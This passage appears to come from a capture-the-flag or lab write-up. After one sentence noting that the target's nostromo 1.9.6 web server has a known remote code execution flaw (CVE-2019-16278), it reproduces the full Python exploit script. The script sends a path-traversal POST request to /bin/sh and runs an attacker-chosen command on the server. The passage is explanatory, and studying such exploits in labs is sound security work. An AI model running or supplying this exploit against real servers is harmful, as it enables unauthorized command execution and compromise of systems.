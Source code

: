 And indeed, there is a remote code execution exploit we can use on this specific version. Let's look at the code to see what it does.

```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

#cve2019_16278.py

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/



"""
help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)
```